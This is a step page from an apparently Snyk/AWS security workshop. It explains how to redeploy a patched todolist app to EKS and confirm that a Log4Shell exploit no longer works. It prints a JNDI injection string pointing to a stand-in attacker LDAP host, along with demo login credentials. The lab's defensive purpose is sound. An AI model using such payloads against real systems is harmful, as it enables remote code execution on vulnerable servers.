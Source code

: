 +++
title = "Step 9: Verify the Vulnerability is no longer exploitable."
chapter = false
weight = 44
+++

## Update your Cloud9 working branch

Back in Cloud9, pull the latest changes, including the Snyk Fix, to the working environment.

```sh
git pull
```

## Re-build the Image
Now build and push the container to ECR (make sure you are cd'ed into the todolist directory).

```sh
docker build -t $REPO/todolist:latest .
docker push $REPO/todolist:latest
```

## Re-deploy the Application to EKS

After pushing the image to ECR, push it to EKS by scaling the goof deployment with kubectl. The deployment's ImagePullPolicy forces EKS to pull the latest image from ECR.

```sh
kubectl scale deployment todolist --replicas=0
kubectl scale deployment todolist --replicas=1
```

## Verify the Exploit no longer works

Refresh your broweser tab on the todolist app and log back in (user: foo@bar.org, password: foobar) and submit the same JDNI search string: `${jndi:ldap://ldap.darkweb:80/#Vandalize}`.
The page will not show the graphiti because the newer version on Log4J no longer is vulnerable!

![todolist-fixed](/images/todolist-fixed.png)